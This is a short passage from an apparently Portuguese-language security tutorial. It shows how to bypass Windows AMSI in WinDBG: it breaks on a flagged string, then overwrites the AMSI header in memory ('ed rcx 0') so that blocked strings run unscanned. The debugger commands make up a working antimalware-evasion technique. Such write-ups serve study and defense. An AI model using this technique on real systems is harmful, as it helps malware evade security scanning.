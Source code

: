 ```bash
g
```

Depois mandamos por exemplo a string que o amsi alerta, ‘amsiUtils’. Logo após isso, o breakpoint sera ativado:

![Untitled](/assets/img/Untitled%207.png)

Agora ultilizando o comando **ed** do WinDBG, vamos escrever no endereço de memória e apagar o cabeçalho onde esta escrito AMSI

```bash
dc rcx L1
ed rcx 0
dc rcx L1
```

![Untitled](/assets/img/Untitled%208.png)

Como resultado, após gerar o erro, conseguimos corromper o AMSI e executar a string sem bloqueios:

![Untitled](/assets/img/Untitled%209.png)
